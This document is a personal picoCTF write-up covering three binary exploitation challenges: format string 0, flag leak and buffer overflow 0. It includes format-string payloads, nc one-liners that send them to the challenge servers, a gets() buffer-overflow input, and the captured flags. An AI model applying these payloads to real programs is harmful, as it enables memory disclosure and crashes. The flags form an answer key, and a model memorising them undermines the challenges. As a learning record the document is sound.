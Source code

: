 # picoCTF: Binary Exploitation

_for picoCTF challenges involving Binary Exploitation_

## format string 0

On typing out `~$ cat format-string-0.c` this section of the program looked particularly interesting:-


```
void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}
```

I knew `sigsev` referred to segmentation faults (Which I found out when I was trying to debug a program which I wrote for Advent of Code a while back), so I assumed causing the program to undergo a segfault will print the flag.

I ran `~$ gdb format-string-0` after giving permissions, I set `break main` then `run` and then repeatedly ran `ni` to go through the program. 

I played the game normally, and in the second part:-


```
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
```

I got:-

```
Program received signal SIGSEGV, Segmentation fault.
__strlen_avx2 () at ../sysdeps/x86_64/multiarch/strlen-avx2.S:74
74      ../sysdeps/x86_64/multiarch/strlen-avx2.S: No such file or directory.
```

Got confused for a second there but I replayed the game after running the instance and got the flag.

flag: `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_74f6c0e7}`

### incorrect tangents

not really a tangent but after:-

```
Program received signal SIGSEGV, Segmentation fault.
__strlen_avx2 () at ../sysdeps/x86_64/multiarch/strlen-avx2.S:74
74      ../sysdeps/x86_64/multiarch/strlen-avx2.S: No such file or directory.
```

I realised I just had to do this on the challenge instance.


## flag leak

Was a bit hard, but then I looked up format strings in better detail from `https://wiki.bi0s.in/pwning/format-string/`, I found out that before the calling of `printf` the stack gets populated with the value of the variable we are referencing and the pointer to it. However if no variable is referenced the `printf` function just returns the last thing on the stack.

and we can see this behaviour by inputting `%i$s` where `i` represents the i'th offset from the top of the stack

so I kept running: `echo "%""i""$""s" | nc saturn.picoctf.net 51449` and kept changing the value of `i` as I proceeded and on the 24th iteration I got the flag (although I should have automated this process using a shell script or a python script).

flag: `picoCTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}`

### incorrect tangents

stringing together `%s` after `%s` won't work as per the page I referenced, also wasted some time trying to make a python script to automate this but it didn't work and I just decided to do it by hand

### learnings

1. learned more about format specifiers in C
2. learned what goes on in a printf function with a format specifer
3. learned how values are put on a stack for printf function


## buffer overflow 0

This was a very easy challenge, on inspecting the C code I noticed that the program used `gets` to get a string and store it in a variable with a size of 100, any attempt to store more than the given size would cause the overflow and give us the flag.

a simple: `python3 -c 'print("A"*101)' | nc saturn.picoctf.net 57333` was sufficient

flag: `picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}`

### incorrect tangents

None, pretty simple

### learnings

1. how to do a buffer overflow exploit
